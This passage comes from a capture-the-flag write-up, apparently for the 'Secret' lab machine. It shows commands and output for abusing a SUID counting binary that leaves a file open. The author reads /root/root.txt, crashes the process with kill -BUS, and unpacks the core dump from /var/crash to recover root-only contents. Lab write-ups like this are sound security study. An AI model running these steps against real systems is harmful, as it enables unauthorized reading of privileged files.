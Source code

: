 As we can see, in the method `filecount()`, the program runs a scan on the file passed as argument by the user, however this file never closes due to `fclose()` never being called. Since this file gets read as root due to the SUID bit being enabled, we can kill the program while it's running to make it crash, preserving the active root priviledge. Due to the precence of `prctl(PR_SET_DUMPABLE, 1)` in the program, the error will get logged in `/var/crash`, enabling us to read the contents of the file that was open while it crashed.

```bash
# From current shell
dasith@secret:/opt$ ./count -p

Enter source file/directory name: /root/root.txt

Total characters = 33
Total words      = 2
Total lines      = 2
Save results a file? [y/N]: y

# On another active shell
dasith@secret:~/local-web$ ps aux | grep count
root         821  0.0  0.1 235676  7404 ?        Ssl  14:05   0:00 /usr/lib/accountsservice/accounts-daemon
dasith      1262  0.0  0.0   2488   576 pts/0    S+   14:08   0:00 ./count -p
dasith      1264  0.0  0.0   6432   740 pts/1    S+   14:08   0:00 grep --color=auto count

dasith@secret:~/local-web$ kill -BUS 1262

# Again from the first shell

Path: Bus error (core dumped)

dasith@secret:/opt$ cd /var/crash
dasith@secret:/var/crash$ ls
_opt_count.0.crash  _opt_count.1000.crash  _opt_countzz.0.crash
```

We can now unpack the file `_opt_count.1000.crash`, read it's CoreDump contents and search for the root flag using grep.

```bash
dasith@secret:/var/crash$ mkdir /tmp/crash_log

dasith@secret:/var/crash$ apport-unpack _opt_count.1000.crash /tmp/crash_log

dasith@secret:/var/crash$ cd /tmp/crash_log

dasith@secret:/tmp/crash_log$ ls
Architecture  DistroRelease        ProblemType  ProcEnviron  Signal
CoreDump      ExecutablePath       ProcCmdline  ProcMaps     Uname
Date          ExecutableTimestamp  ProcCwd      ProcStatus   UserGroups

dasith@secret:/tmp/crash_log$ file *
file *
Architecture:        ASCII text, with no line terminators
CoreDump:            ELF 64-bit LSB core file, x86-64, version 1 (SYSV), SVR4-style, from './count -p', real uid: 1000, effective uid: 0, real gid: 1000, effective gid: 1000, execfn: './count', platform: 'x86_64'
Date:                ASCII text, with no line terminators
DistroRelease:       ASCII text, with no line terminators
ExecutablePath:      ASCII text, with no line terminators
ExecutableTimestamp: ASCII text, with no line terminators
ProblemType:         ASCII text, with no line terminators
ProcCmdline:         ASCII text, with no line terminators
ProcCwd:             ASCII text, with no line terminators
ProcEnviron:         ASCII text
```